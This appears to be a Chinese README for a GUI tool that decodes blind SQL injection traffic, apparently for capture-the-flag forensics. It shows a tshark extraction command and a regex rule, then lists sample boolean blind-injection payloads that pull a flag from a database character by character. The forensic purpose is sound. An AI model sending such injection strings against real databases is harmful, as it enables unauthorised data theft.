


sql盲注日志分析工具GUI版本

tshark -r blindsql.pcapng   -Y  "http.request.line" >1.txt 




导出sql日志后，选择合适正则分析即可，正则要根据实际情况修改。

正则规则：要把倒数第一个数和倒数第三个数用括号括起来

例如：ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), **1**, 1))>**100**  正则提取出 1  和   100




```php
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>100
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>200
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>150
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>125
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>112
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>106
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>103
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>101
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>102
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>102
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>100
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>200
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>150
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>125
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>112
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>106
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>109
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>108
```

[参考项目](https://github.com/sqlsec/Sqlmap_Plaintext)